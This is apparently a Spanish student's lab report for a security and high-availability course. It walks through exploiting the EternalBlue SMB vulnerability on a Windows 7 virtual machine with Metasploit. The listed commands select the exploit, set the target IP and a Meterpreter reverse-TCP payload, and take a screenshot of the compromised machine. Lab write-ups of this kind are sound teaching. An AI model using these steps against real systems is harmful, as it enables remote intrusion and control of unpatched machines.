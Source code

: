 # SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8
- Windows con 10.0.2.11/8

## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar y deescargar payloads y ejecutarlos.

*msfconsole*



Usaremos su buscador para encontrar el exploit:

*search eternalblue*


De los resultados elegiremos la primera opción:

***0  exploit/windows/smb/ms17_010_eternalblue  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption***

*use 0*

Nos devuelve:

*No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp*


Vemos que parámetros son requeridos con el comando:
*options*


nos pide datos del equipo remoto o *RHOST*. Le indicamos la ip del equipo remoto 10.0.2.11


Podemos ver una serie de payloads a ejecutar:


Vamos a realizar la prueba con el siguiente *windows/x64/meterpreter/reverse_tcp*:




Le indicamos que se ejecute con *run*




Podemos ver las distintas opciones que nos ofrece este exploit con *options*


Como ejemplo ejecutaremos el comando *screenshot* y nos hará una captura de pantalla de la máquina remota.
